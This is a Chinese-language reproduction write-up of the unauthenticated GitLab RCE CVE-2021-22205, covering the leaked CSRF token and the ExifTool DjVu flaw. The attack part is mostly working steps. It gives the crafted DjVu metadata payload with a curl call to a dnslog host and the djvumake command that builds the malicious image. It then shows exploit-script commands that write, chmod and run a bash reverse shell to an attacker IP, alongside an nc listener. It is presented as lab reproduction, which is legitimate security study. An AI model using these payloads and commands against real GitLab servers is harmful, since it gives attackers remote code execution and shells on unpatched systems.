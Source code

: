 ```yaml
---
title: GitLab 未授权RCE(CVE-2021-22205)  --花无名   
layout: mypost
categories: [漏洞复现]
---
```

# 1.漏洞介绍

这个漏洞形成未授权RCE主要要两个原因：1.gitlab的用户登录界面的CSRF-token泄露，攻击者可以直接获取使用至系统文件上传接口，导致原本需要登录后才能实现RCE的漏洞风险大大提高了

2.第二个原因是gitlab使用的exiftool，接收用户上传图片时，处理不当，将用户上传的无法解析的文件进行执行，从而导致了可RCE（CVE-2021-22204），[详情见vakzz大佬原文](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

# 2.未授权漏洞复现：

`影响范围：`

`11.9 <=  GitLab（CE/EE）< 13.8.8
13.9 <=  GitLab（CE/EE）< 13.9.6
13.10 <= GitLab（CE/EE）< 13.10.3`

过程：

直接访问接口 http://xxxx.com/users/sign_in

在返回包中找到csr![微信截图_20211112140906](微信截图_20211112140906.png)f-token，将值记录



构造数据包，上传文件

![tihuan](tihuan.png)

即可未授权上传文件至目标服务器

# 文件上传RCE

根据上述漏洞原理可知，我们需要构造一个非常规的图片文件，从而使系统解析错误并执行文件内容

此处需要上传`DjVu`格式图片（即Exp）

![attfile](attfile.png)

DjVu格式图片需要下载安装工具DjVuLibre，地址：http://djvu.sourceforge.net/

木马文本内容

`(metadata (Copyright "\ " . qx{curl xxxx.dnslog.cn} . \ " b ") )`

使用命令生成rce.jpg

`djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg`

之后上传至系统服务器即可

![image-20211112143405506](image-20211112143405506.png)

至此即可查看dnslog是否有成功访问记录了

# 脚本复现及漏洞利用

这里使用脚本为：https://github.com/Al1ex/CVE-2021-22205 详细工具介绍可直接至github查看。

NC反弹shell

构造语句，将命令写入到服务器，执行写入的文件，即可成功反弹shell

` python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "echo 'bash -i >& /dev/tcp/xx.xx.x.x/6666 0>&1' > /tmp/1.sh"`

![fan1](fan1.png)

可看到文件已成功写到靶机上

![ubantu](ubantu.png)

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "chmod 7777 /tmp/1.sh"`

![fan2](fan2.png)

`nc -lvp 6666`

`python3 CVE-2021-22205.py -a true -t http://192.168.195.142:8080/ -c "/bin/bash /tmp/1.sh"`

![image-20211112144237872](image-20211112144237872.png)

![shell](shell.png)



参考：https://github.com/Al1ex/CVE-2021-22205     https://www.freebuf.com/articles/web/303375.html